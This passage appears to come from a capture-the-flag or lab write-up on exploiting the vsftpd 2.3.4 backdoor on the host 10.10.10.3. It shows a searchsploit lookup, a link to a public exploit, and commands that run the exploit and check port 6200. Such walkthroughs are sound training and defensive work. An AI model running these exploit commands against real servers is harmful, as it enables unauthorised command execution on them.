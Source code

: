 ### Searchsploit

``` bash
┌──(Hades㉿10.10.14.4)-[2.7:16.6]~
└─$ searchsploit vsftpd 2.3.4
----------------------------------------------- ---------------------------------
 Exploit Title                                 |  Path
----------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Met | unix/remote/17491.rb
----------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Base on `searchsploit`, we know the vsftpd 2.3.4 service had a critical vul allowing attacker to execute command in the server.

![2](img/2.png)

### <a href='https://github.com/ahervias77/vsftpd-2.3.4-exploit' target="blank">Backdoor Command Execution</a>

=== "Execute commands"

	Execute payload

	```
	python3 vsftpd-2.3.4-exploit.py 10.10.10.3 21 whoami
	```

	Check open port: 6200

	```
	nmap -p 6200 10.10.10.3 -Pn
	```
